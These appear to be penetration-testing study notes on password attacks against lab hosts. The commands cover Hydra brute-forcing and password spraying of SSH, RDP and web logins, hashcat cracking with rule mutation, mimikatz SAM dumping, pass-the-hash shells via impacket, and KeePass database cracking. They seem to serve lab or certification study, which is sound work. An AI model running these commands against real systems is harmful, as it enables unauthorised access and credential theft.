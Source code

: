 [[Notes/Password Attacks|Password Attacks]]

# Attacking Network Service Logins
## SSH and RDP logins
### THC-Hydra
TAGS: #hydra #password-cracking #dictionary-attack #ssh #rdp
```shell
# unzip if it wasn't already
sudo gzip -d rockyou.txt.gz

# simple hydra command
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
#### Password Spraying
```shell
# password sparying with a list of usernames
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
## HTTP POST login forms
```shell
# put things in place after we have intercepted with burp (could utilize burp's intruder?)
# hydra -l ^username^ -P ^password list path^ ^host^ http-post-form "location:var1=^username^:var2=^PASS^:^login_failed_text^"
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

# Password Cracking
```shell
echo -n "secret" | sha256sum #-n for eliminating new line

# wordcount
echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c

# hashcat benchmaerk
hashcat -b
# OR
hashcat.exe -b

# calculate
(($word_count^$password_length)/$hash_rate*100000) = $seconds
```

## Wordlist mutation
USEFUL LINK : https://hashcat.net/wiki/doku.php?id=rule_based_attack
```shell
# remove lines start with "1", -i instantanious /^1 start with "1", /d delete
sed -i '/^1/d' wordlist.txt

# rule file to append "1" to the end of each line
echo \$1 > rule.rule

# hashcat in debugging mode with -r for rule sets
hashcat -r demo.rule --stdout wordlist.txt

# capitalize the first letter and add "1" at the end of line
cat rule1.rule
$1 c

# same as above, but it will do the jobs separately
cat rule2.rule
$1
c

# premade rule files for hashcat
ls -la /usr/share/hashcat/rules/

```

## Cracking Methodology

```shell
# identifying hashes
hash-identifier

Enter Hash : 

# if it cannnot identify
hashcat hash.txt

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+=================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
   #<SNIP>
```
## Cracking NTLM
```powershell
# Getting all users
Get-LocalUser

# mimikatz (open with elevated privileged)
.\mimikatz.exe

## inside mimikatz

# see out privilege
mimikatz # privilege::debug

# elevate to system
mimikatz # token::elevate

# dump the SAM database
lsadump::sam
```

```shell
# hashcat to crack
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

```

## Passing NTLM
```shell
# pass the hash to SMB service
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash <-hash->

# use PSexec (this will get nt-authority)
# don't forget to add LM hash as 16*0
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

#wmiexec (get the ntlm owner shell)
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

## Password Manager

```powershell
# search for the db file
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```bash
# keepass to JtR
keepass2john Database.kdbx > keepass.hash
# example hash
cat keepass.hash
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
# Eliminate the database, just store the hash as hash

# look for the mode
hashcat --help | grep -i "KeePass"

# Crackin' time
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
# Working with Hashes
